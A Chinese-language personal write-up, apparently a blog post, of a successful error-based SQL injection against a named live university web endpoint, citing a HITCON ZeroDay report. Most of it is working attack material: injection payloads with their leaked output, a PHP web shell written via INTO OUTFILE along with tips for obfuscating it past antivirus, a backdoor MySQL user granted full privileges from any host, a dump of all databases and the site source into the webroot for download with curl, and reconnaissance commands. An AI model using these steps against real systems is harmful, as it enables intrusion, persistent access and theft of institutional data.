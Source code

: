 ```yaml
---
title: SQL Injection dce Success
description: SQL Injection dce Success
last_update:
  date: "2025-09-06T08:00:00+08:00"
---
```


## 前言

1. 目標: https://w2.dce.tku.edu.tw/plugins/validationEngine/check_member_id.php?fieldValue=%27

## 測試過程

1. `?fieldValue=%27`

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
[null,false]
```

2. `fieldValue=%27%20OR%20%271%27%20=%20%271`

```
[null,false]
```

3. `fieldValue=%27%20AND%20updatexml(null,concat(0x7e,version(),0x7e),null)%20AND%20%271%27%20=%20%271`

```
XPATH syntax error: '~10.1.31-MariaDB~'
[null,false]
```

好快，三次就成功用 Error-Based SQLi 提取到資料

接下來請參考 [ZD-2025-01107](https://zeroday.hitcon.org/vulnerability/ZD-2025-01107)

mysqldump，root 使用者只能透過 localhost 連線，python 那個可以再試試看

## 學到的東西

1. 遞迴地列出目錄底下的副檔名分佈: `powershell "Get-ChildItem D:\xampp\htdocs -Recurse | Group-Object Extension | Sort Count -Desc | Select Name,Count"`

```
Name                  Count
----                  -----
.php                  26979
                      13624
.jpg                  12053
.png                   6500
```

2. 遞迴地排除指定副檔名的檔案，並打包成 zip 寫入本機目錄: `powershell "Get-ChildItem D:\xampp\htdocs -Recurse | Where {$_.Extension -notin '.jpg','.png','.gif','.svg','.pdf','.xls','.doc','.ttf','.js','.css','.less','.scss'} | Compress-Archive -Dest D:\xampp\htdocs\core.zip"`

3. 將指定目錄底下的 .php 檔案打包成 zip 寫入本機目錄: `powershell Compress-Archive -Path "D:\xampp\htdocs\*.php" -DestinationPath "D:\xampp\htdocs\php_files.zip"`

4. 使用 curl 下載檔案: `curl --output php_files.zip https://w2.dce.tku.edu.tw/php_files.zip -v`

5. 尋找環境變數底下的執行檔: `where mysql`

6. Windows + XAMPP 的架構，可在 `D:\xampp\mysql\bin` 找到 `mysql.exe` 跟 `mysqldump.exe`

7. `SELECT user()` => `root@localhost`

8. `SELECT @@basedir` => `D:\xampp\mysql`

9. `SELECT @@datadir` => `D:\xampp\mysql\data`

10. UNION 搭配上傳檔案:

`sql
UNION SELECT '<?php system($_GET["cmd"]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
UNION SELECT '<?php system($_GET[cmd]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
`

UNION 前後的欄位數量還是得匹配，才會成功執行

11. 一般的防毒軟體都可以偵測到上面兩種 php 檔案（會被歸類到惡意程式），所以可以加一些垃圾程式碼跟註解來混淆

```php
<?php $host = "localhost"; $username = "root"; system($_GET["cmd"]); ?>
```

12. 也可以用 `<?php echo exec($_GET[cmd]);?>`

13. 直接用 CMD 新增 MySQL 使用者: `D:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "CREATE USER 'tempdump'@'%' IDENTIFIED BY 'temp_password'; GRANT ALL ON *.* TO 'tempdump'@'%'; FLUSH PRIVILEGES;"`

- 要記得 -p 後面不能有空格，這樣才不會跳出輸入框
- `-e "SQL Syntax Here; Other SQL Syntax Here;"`
- `'tempdump'@'%'` => `'username'@'hostname'` => 允許該使用者透過任何主機進行連線
- `GRANT ALL ON *.*` => `database.table` => 允許所有 database 底下的所有 table

14. 使用 mysqldump 匯出所有 databases 的資料 as .sql 檔案: `D:\xampp\mysql\bin\mysqldump.exe -u tempdump -p"temp_password" --all-databases > D:\xampp\htdocs\alldb.sql`

15. 刪除臨時帳號: `D:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "DROP USER 'tempdump'@'%'; FLUSH PRIVILEGES;"`

16. CMD 的 ls:

- `dir`
- `dir D:\xampp`

17. CMD 的 rm:

- `del file.php`
- `del D:\xampp\htdocs\file.php`

18. CMD 的 cat:

- `type file.php`
- `type D:\xampp\htdocs\file.php`

19. powershell 感覺必學，功能太強大了

20. CMD 的指令 `systeminfo`

21. CMD 的指令 `ipconfig /all`

22. CMD 的指令 `arp -a` (Address Resolution Protocol)

```
介面: xxx.yy.zzz.40 --- 0x6
  網際網路網址          實體位址               類型
  xxx.yy.zzz.6          aa-bb-cc-dd-ee-ff     動態
  xxx.yy.zzz.8          bb-cc-dd-ee-ff-aa     動態
```
